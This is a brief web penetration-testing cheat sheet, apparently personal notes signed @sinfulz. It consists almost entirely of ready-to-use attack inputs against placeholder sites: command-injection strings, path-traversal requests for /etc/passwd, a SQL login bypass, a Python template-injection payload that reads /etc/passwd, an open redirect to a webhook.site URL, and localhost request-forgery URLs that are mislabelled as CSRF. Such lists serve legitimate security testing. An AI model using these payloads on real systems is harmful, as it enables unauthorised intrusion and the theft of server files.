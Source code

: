 # Misc checks (for Web Pen Testing)

# Command Execution tips:
	- Test.com/?ip=127.0.0.1;id
	- Test.com/?ip=127.0.0.1`id`
	- Test.com/?ip=127.0.0.1$(id)

# Path Traversal examples:
	- test.com/file.php?file=../../../../../etc/passwd
	- test.com/file.php?file=/var/www/../../../../../../../etc/passwd
	- test.com/file.php?file=../../../../../etc/passwd%00

# SQLi
Bypassing a login page:
	- admin' or 1=1 #
	- Admin" or 1=1 #

# Server Side Template Injection
You may need to change the value from 1, 2, 3 and so on to get the list of interesting functions:
	- test.com/%7B%7B%20''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()%20%7D%7D
	
	
# Open Redirects
Using Webhook.site:
- Test.com/redirect.php?uri=//webhook.site/18492768-5460-4681-b330-524f00385eae

# CSRF:
- Test.com/?url=http://127.0.0.1:1234/hacker.txt
- Test.com/?url=http://localhost:1234/hacker.txt
- Test.com/?url=http://0.0.0.0:1234/hacker.txt

To be continued. @sinfulz
